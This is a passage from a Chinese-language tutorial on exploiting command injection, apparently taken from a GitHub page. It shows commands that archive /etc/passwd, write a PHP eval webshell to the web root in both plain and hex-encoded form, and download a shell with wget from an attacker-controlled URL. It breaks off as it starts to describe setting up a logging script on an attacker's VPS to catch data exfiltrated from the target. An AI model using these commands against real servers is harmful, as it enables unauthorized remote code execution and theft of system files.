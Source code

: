 



**（5）zip压缩**

```php
zip passwd.zip /etc/passwd
```

![image-20211126152239793](image/命令执行/image-20211126152239793.png)





#### 2、写webshell(直接写入或外部下载webshell)

* 利用条件：需要站点目录具有写权限

**（1）写webshell**

```php
echo 3c3f706870206576616c28245f504f53545b3132335d293b203f3e|xxd -r -ps > webshell.php
echo "<?php @eval(\$_POST[cmd]); ?>" > webshell.php
```



**（2）外部下载shell**

* 利用条件：目标服务器可以连接外网或可以与攻击机互通，且能执行wget命令

```php
wget 网址 -O webshell.php #使用wget下载shell，使用参数-O来指定一个文件名
```



#### 3、在vps上建立记录脚本

* 利用条件：需要目标服务器可以向公网服务器发起http请求，并且能执行curl命令或wget命令

**（1）构造记录脚本**
在自己的公网服务器站点根目录写入php文件，内容如下：
`record.php`
